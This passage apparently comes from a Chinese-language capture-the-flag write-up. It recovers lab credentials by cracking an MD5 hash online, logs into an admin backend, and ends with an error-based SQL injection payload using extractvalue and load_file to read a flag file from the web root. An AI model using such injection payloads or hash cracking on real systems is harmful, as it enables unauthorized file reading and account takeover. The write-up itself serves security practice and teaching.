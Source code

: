   得到`2e503090facfc4337207f|545`

  与上一步拼接起来即为：`username|password|email`：`ichuqiu|318a61264482e503090facfc4337207f|545`

把密文丢到在线MD5解密得密码：

![image-20210416222248848](/images/posts/ctf/image-20210416222248848.png)

终于获得：

`username`：`ichuqiu`

`password`：`Myxss623`

输入用户名密码，登陆后台，查看file：

![image-20210416222615677](/images/posts/ctf/image-20210416222615677.png)

还是得通过**SQL注入**`load_file`来获取flag

```bash
' and extractvalue(1,concat(0x5c,(select load_file('/var/www/html/f13g_ls_here.txt'))))#
```
